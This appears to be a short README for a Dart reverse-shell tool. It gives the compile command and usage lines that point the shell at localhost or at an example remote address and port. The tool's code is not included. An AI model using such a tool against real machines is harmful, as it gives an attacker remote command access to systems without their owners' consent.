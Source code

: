 A reverse shell with an entrypoint in `bin/`, library code
in `lib/`, and a unit test in `test/`.

Compiling:
```shell
dart compile exe bin/probable_octo_disco.dart
```
**Executing:**

**_Example 1:_**
_Defaults to localhost:4567_
```shell
./bin/probable_octo_disco.exe
```

**_Example 1:_**
_For localhost:8999_
```shell
./bin/probable_octo_disco.exe -p 8999
```

**_Example 2:_**
_For 12.345.67.89:1234_
```shell
./bin/probable_octo_disco.exe -a 12.345.67.89 -p 1234
```
